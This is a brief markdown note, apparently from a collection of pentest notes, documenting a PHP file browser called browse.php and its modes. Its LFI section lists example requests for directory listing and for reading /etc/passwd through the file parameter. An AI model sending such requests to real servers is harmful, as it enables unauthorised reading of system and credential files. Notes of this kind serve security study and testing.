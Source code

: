 # php powerbrowse

* Filename: browse.php

## Info

This file allows directory listing, reading files and more. It has different modes depending on the file it accesses.

1. source: shows source code of file
2. thumb: generates thumbnail of image file
3. mime | logo | favicon : returns mime type of file
4. read: returns base64 value of image file.
5. listdir: list the directory listing (default option)

## LFI

```bash
# directory listing 
/browse.php?dir=<dir-name>

# LFI
/browse.php?p=source&file=</etc/passwd>
```
